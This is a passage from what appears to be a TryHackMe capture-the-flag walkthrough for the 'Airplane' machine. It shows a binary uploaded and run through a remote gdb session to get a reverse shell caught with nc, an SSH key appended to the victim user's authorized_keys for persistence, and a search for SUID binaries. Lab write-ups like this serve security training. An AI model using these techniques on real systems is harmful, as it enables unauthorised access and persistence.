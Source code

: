 Uploading our binary to the `/tmp` directory.

```console
(gdb) remote put binary.elf /tmp/binary.elf
Successfully sent file "binary.elf".
```

Changing the executable to debug to our binary.

```console
(gdb) set remote exec-file /tmp/binary.elf
```

Starting our listener and running it, we get a shell.

```console
(gdb) r
Starting program: /home/kali/tryhackme/airplane/binary.elf
Reading /usr/lib/debug/.build-id/e9/8c2a320466a026c0a0236da38a5156f9b8cb54.debug from remote target...
warning: File transfers from remote targets can be slow. Use "set sysroot" to access files locally instead.
[Detaching after fork from child process 3084]
[Inferior 1 (process 3083) exited normally]
```

Now that we have a shell as the `hudson` user, we can drop an SSH key and use SSH to get a better shell.

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.47.54] 44750
id
uid=1001(hudson) gid=1001(hudson) groups=1001(hudson)
echo ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICmoQnk7E5HqYlAGSHEFJIS46QbkcopF80bN4LTmCmkL kali@kali >> /home/hudson/.ssh/authorized_keys
```

```console
$ ssh -i id_ed25519 hudson@airplane.thm
hudson@airplane:~$
```

## Shell as carlos

### Suid Binary

Checking for any binaries with the `suid` bit set, we notice `/usr/bin/find`.

```console
hudson@airplane:~$ find / -type f -perm -u=s 2>/dev/null
/usr/bin/find
...
```
It is owned by the `carlos` user.

```console
hudson@airplane:~$ ls -la /usr/bin/find
-rwsr-xr-x 1 carlos carlos 320160 Şub 18  2020 /usr/bin/find
```
